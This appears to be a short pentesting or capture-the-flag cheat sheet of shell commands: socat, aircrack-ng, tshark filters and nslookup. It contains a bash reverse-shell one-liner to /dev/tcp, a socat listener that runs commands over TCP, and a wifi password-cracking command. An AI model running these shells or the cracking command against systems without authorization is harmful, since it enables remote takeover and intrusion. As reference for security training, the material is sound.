 ### Socat

Run a command through a TCP connection:
```bash
socat tcp-listen:<port>,fork,reuseaddr 'exec:<cmd>'
```

### Rev Shell

```bash
bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1'
```

For better performance, use `pwncat` to listen

### Aircrack-ng suite

Crack wifi passwords from `.pcap` files
```bash
aircrack-ng file wordlist
```

### tshark

Filter outputs
```bash
tshark -r file -Y filter

# Useful filters:
#
# ip.{addr,src,dst}
# http[.method]
# tcp[.{port,src,dst}]
# frame.number
```

Get files (or use tcpflow)
```bash
# prot (transport protocol): tcp, udp, tls, http2, quic
# mode (output): ascii (ascii + '.' as non-print), ebcdic, hex (hexa + ascii), raw (hexa)
# filter (which flow to follow): index, ip + port pair
tshark -r file -z follow,prot,mode,filter[,range]

# Example:
tshark -r file -z "follow,tcp,ascii,200.57.7.197:32891,200.57.7.198:2906"
```

### nslookup (network service/server)

Normal/reverse lookup
```
> server <DNS server>
> 1.1.1.1
> joaofukuda.dev
```
